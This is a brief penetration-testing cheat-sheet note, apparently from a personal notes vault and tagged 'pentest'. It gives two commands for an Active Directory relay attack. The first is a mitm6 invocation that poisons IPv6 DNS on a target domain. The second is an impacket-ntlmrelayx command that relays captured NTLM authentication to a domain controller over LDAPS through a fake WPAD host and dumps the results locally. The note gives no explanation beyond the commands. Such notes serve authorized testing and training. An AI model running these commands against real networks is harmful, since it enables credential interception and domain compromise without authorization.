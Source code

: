 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

mitm6

~~~bash
mitm6 -d [domain].[ext]
~~~

~~~bash
impacket-ntlmrelayx -6 -t ldaps://[domain controller ip] -wh nullwpad.[domain].[ext] -l /home/kali/Working/enumeration/mitm6_dump
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
